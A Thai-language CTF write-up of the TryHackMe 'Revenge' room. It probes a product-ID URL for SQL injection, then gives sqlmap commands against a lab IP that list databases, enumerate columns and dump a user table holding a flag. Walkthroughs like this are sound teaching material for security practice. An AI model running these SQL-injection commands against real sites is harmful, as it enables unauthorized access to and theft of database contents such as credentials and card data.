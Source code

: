 # 🧠 TryHackMe - Revenge

> 🟡 หมวด: Web / Privilege Escalation  
> 🧩 ความยาก: Medium  
> 🕵️‍♂️ โหมด: CTF แบบ Capture The Flag  
> 🧩 URL: [Revenge](https://tryhackme.com/room/revenge)  
> 👨‍💻 ผู้ทำ: Thanyakorn

---

## 📌 ข้อมูลจากโจทย์

> "What I want you to do is simple. Break into the server that's running the website and deface the front page."

💬 แปล: สิ่งที่โจทย์ต้องการคือ เจาะเข้าเว็บและแก้หน้าแรก (deface)

---

## 🛰️ 1. ข้อมูลเบื้องต้น (Target Info)

- IP เครื่องเป้าหมาย: `10.10.28.30`  
- พอร์ตที่เปิด: `22`, `80`

---

## ทดลองเข้าใช้งานเว็บไซต์

- ไปที่เมนู **Products** จะเจอชื่อสินค้า 4 รายการ  
- คลิก **LEARN MORE** ของสินค้าใดก็ได้

![Web site](images/1.png)

- ตัวอย่างสินค้า: Box of Duckies  
- จะแสดงรูปสินค้า, คำอธิบาย, ราคา, สี  
- สังเกต Path ด้านบนจะเป็น `/products/1`  
- กลับไปหน้าเดิม แล้วคลิก **LEARN MORE** ของสินค้าอื่น

![Products-Path](images/2.png)

- จะเห็นว่า Path เหมือนเดิมแต่ตัวเลขเปลี่ยนเป็น `/products/2`

![Products-Path](images/3.png)

- ลองเปลี่ยนตัวเลข 2 เป็น 3 ใน Path เพื่อดูสินค้าชิ้นที่ 3

![Products-Path](images/4.png)

---

## 📌 พิจารณาเบื้องต้น

- น่าจะมีการใช้ฐานข้อมูลเพื่อดึงข้อมูลสินค้าตาม ID ที่ส่งผ่าน URL  
- เมื่อลองใส่เครื่องหมาย `'` ที่ Path พบว่าเว็บแสดงข้อผิดพลาด HTTP 500 ซึ่งเป็นสัญญาณบ่งชี้ช่องโหว่ SQL Injection  
- การใส่เครื่องหมาย `'` เพื่อรบกวนการประมวลผล SQL query และดูว่ามี error message หรือข้อมูลอะไรหลุดมาหรือไม่  

![Products-Path](images/5.png)

---

## 🚪 2. Initial Access

### 🔸 2.1 ตรวจสอบช่องโหว่ SQL Injection ด้วย sqlmap

ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" --dbs
```

![Sqlmap](images/6.png)

**อธิบายคำสั่ง:**

- `sqlmap` คือเครื่องมืออัตโนมัติสำหรับตรวจสอบช่องโหว่ SQL Injection และดึงข้อมูลฐานข้อมูล  
- ตัวเลือก `-u` ใช้ระบุ URL ที่ต้องการทดสอบ โดย `"http://10.10.28.30/products/3*"` ใช้ wildcard `3*` เพื่อให้ sqlmap ลองค่าหลาย ๆ ค่าในพารามิเตอร์ id  
- ตัวเลือก `--dbs` สั่งให้ sqlmap ดึงชื่อฐานข้อมูลทั้งหมดที่เชื่อมต่อกับเว็บเป้าหมาย  

![Sqlmap](images/7.png)

> ผลลัพธ์จะแสดงฐานข้อมูลต่าง ๆ เช่นฐานข้อมูลหลัก `duckyinc` และฐานข้อมูลระบบของ MySQL เช่น `mysql`, `information_schema` เป็นต้น
> 
> เราจะมุ่งเน้นวิเคราะห์ฐานข้อมูล `duckyinc` ต่อไป เพราะเป็นฐานข้อมูลสำคัญของเว็บนี้

**สรุป:**  
จากการใช้ sqlmap เราพบช่องโหว่ SQL Injection ที่พารามิเตอร์ id ของ URL สามารถเข้าถึงฐานข้อมูลหลักได้ ซึ่งเป็นจุดเริ่มต้นของการเจาะระบบ

### 2.2 ดึงข้อมูลโครงสร้างฐานข้อมูล (Column Enumeration)

หลังจากพบว่าฐานข้อมูลหลักคือ `duckyinc` ขั้นตอนถัดไปคือการตรวจสอบว่าในฐานข้อมูลนี้มีตารางอะไรบ้าง และแต่ละตารางมีคอลัมน์อะไรที่น่าสนใจ

ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --columns
```
![Sqlmap](images/8.png)

**อธิบายคำสั่ง:**

- -D duckyinc ระบุชื่อฐานข้อมูลที่ต้องการให้ sqlmap ทำการดึงข้อมูล
- --columns ให้ sqlmap ดึงชื่อคอลัมน์ทั้งหมดจากทุกตารางภายในฐานข้อมูลที่ระบุ


เมื่อรันคำสั่งแล้ว sqlmap จะถามว่าต้องการดำเนินการต่อหรือไม่ ให้ตอบ Y

![Sqlmap](images/9.png)

จากผลลัพธ์ที่ได้ จะเห็นรายชื่อคอลัมน์ทั้งหมดภายในฐานข้อมูล duckyinc ซึ่งเป็นข้อมูลโครงสร้างที่จำเป็นสำหรับการดึงข้อมูลเป้าหมายในขั้นตอนถัดไป

### 2.3 ดึงข้อมูลจากตาราง `user` (Dump Table)

หลังจากเราทราบโครงสร้างของฐานข้อมูลแล้ว ขั้นตอนนี้จะเป็นการดึงข้อมูลภายในตาราง `user` ซึ่งอาจมีข้อมูลสำคัญ เช่น รหัสผ่าน หรือค่า Flag ที่เราต้องการ

ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc -T user --dump
```

![Sqlmap](images/10.png)

**อธิบายคำสั่ง:**

- -D duckyinc ระบุชื่อฐานข้อมูลที่ต้องการให้ sqlmap ทำการดึงข้อมูล
- -T user ระบุตารางที่ต้องการดึงข้อมูล
- --dump ให้ sqlmap ดึงข้อมูลทั้งหมดจากตารางที่ระบุ

ผลลัพธ์ที่ได้จะแสดงข้อมูลในตาราง user
ให้สังเกตคอลัมน์ credit_card ของ id = 6 ซึ่งมี Flag ซ่อนอยู่ ให้นำไปใช้ตอบใน TryHackMe
